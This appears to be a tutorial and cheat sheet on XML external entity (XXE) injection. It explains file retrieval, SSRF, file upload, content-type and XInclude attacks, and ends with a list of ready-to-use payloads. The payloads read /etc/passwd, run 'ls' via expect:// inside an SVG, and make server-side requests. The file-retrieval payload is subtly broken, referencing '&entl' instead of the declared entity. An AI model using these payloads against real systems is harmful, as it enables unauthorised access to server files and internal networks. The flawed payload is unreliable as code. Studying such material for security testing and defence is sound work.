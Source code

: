 # XML external entity (XXE) Injection
XXE injection is a web security vulnerability that allows us to interfere with the processing of XML data. It often allows us to view files on the server filesystem, and to interact with any back-end or external systems that the application itself can access.

Types of XXE attacks
- `XXE to retrieve files` An external entity is containing the contents of a file, and is returned in the response.
- `XXE to perform SSRF` An external entity is defined based on a URL to a back-end system.
- `Blind XXE exfiltrate data out-of-band` sensitive data is transmitted from the application server to a system that the attacker controls.
- `Blind XXE to retrieve data via error messagess` we Can trigger a parsing error message containing sensitive data.

<!-- -->

				XXE to retrieve files
##### performing an XXE injection attack that retrieves an arbitrary file from the server you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

<!-- -->
Example:

A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
Their is no defense so we can exploit this by using the following XXE payload
![](XXE2.png)
The payload defines a external entity `&xxe;`. Whose value is in `/etc/passwd` file and uses the entity within `productId` value.This causes the respone to include the contents of `/etc/passwd`
![](XXE3.png)

			XXE via file upload
##### Sometimes Applications allow users to upload files which are then processed server-
side

 Common XML based file formats:
 - `SVG`
 - `DOCX`
 - `XLSX`

<!-- -->
Example:

Create a `SVG` image with the payload

Upload the image Getting a similar response
![](XXE7.png)


			XXE via modified content type
##### Most post requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some sites expect to receive requests in this format but tolerate other content types, including XML.
			
Example:
A normal request the following:
![](XXE8.png)
You might be able to submit the following with the same result:
![](XXE9.png)
			

				XXE to SSRF

Example:
A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
The external entity will cause the server to make a back-end HTTP request to an internal system within the websites infrastructure.
![](XXE4.png)

					XInclude	
##### Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

Example:
Packet being sent 
![](XXE5.png)
We don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, we can use `XInclude`
![](XXE6.png)

					XXE payloads

## Retrieving files:
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <Name>&entl</Name>
</userInfo>
```
## XXE inside SVG
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
## XXE to SSRF
```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.site.com/text.txt">]><foo>&xxe;</foo>
```
## XInclude
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

